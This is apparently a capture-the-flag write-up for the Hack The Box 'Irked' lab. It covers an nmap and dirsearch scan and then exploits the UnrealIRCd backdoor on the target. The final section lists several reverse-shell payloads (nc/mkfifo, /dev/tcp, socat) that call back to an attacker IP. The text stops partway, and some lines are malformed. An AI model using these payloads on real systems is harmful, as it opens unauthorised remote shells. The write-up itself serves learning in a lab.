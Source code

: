 ## ---------------->> Irked <<-----------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.117 -p-
-------

    Nmap scan report for 10.10.10.117
    Host is up (0.39s latency).
    Not shown: 65444 closed ports, 84 filtered ports
    PORT      STATE SERVICE VERSION
    22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
    |   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
    |   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
    |_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
    80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
    |_http-server-header: Apache/2.4.10 (Debian)
    |_http-title: Site doesn't have a title (text/html).
    111/tcp   open  rpcbind 2-4 (RPC #100000)
    | rpcinfo: 
    |   program version    port/proto  service
    |   100000  2,3,4        111/tcp   rpcbind
    |   100000  2,3,4        111/udp   rpcbind
    |   100000  3,4          111/tcp6  rpcbind
    |   100000  3,4          111/udp6  rpcbind
    |   100024  1          43569/tcp6  status
    |   100024  1          47827/tcp   status
    |   100024  1          54210/udp6  status
    |_  100024  1          57310/udp   status
    6697/tcp  open  irc     UnrealIRCd
    8067/tcp  open  irc     UnrealIRCd
    47827/tcp open  status  1 (RPC #100024)
    65534/tcp open  irc     UnrealIRCd
    Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.117/ , represent us with a picture

![Image 1]()

// Lets search for some directories or files with [dirsearch](https://github.com/maurosoria/dirsearch) Tool (By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.117/ -i 100-400 -t 100
--------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Target: http://10.10.10.117/

    [21:09:56] Starting: 
    [21:10:15] 200 -   72B  - /index.html
    [21:10:17] 200 -  626B  - /manual/index.html
    [21:10:17] 301 -  313B  - /manual  ->  http://10.10.10.117/manual/

// Navigating to http://10.10.10.117/manual/ , represent us with apache 2.4 manual

![Image 2]()

// Nothing much there, lets move on.

// We notice also we have service called UnrealIRCd on ports 6697,8067,65534

    6697/tcp  open  irc     UnrealIRCd
    8067/tcp  open  irc     UnrealIRCd
    65534/tcp open  irc     UnrealIRCd

// Lets search for exploit for UnrealIRCd service on [ExploitDB](https://www.exploit-db.com)

// We see that this service vulnerable to remote code execution
the
![Image 3]()

// Checking the [exploit](https://www.exploit-db.com/exploits/13853) we can see that all he does its to open a socket to connect with,

// and run payload with 'AB' at the start

![Image 4]()

// Now can make our own payload, i used [Revshells](https://www.revshells.com/) help(recipe: nc reverse mkfifo)

![Image 5]()

// Lets try this (tried with port 1444, but didnt work , so tried port 443 and it worked)

socat file:`tty`,raw,echo=0 tcp-listen:1444
AB; socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.16.232:1444

AB; sh -i >& /dev/tcp/10.10.16.232/1445 0>&1
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.232 443 >/tmp/f
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.232 1444 >/tmp/f
AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.232 9001 >/tmp/f

/bin/sh | nc 10.10.10.117 1444
AB; rm -f /tmp/p; mknod /tmp/p p && nc 10.10.16.232 1444 0/tmp/p
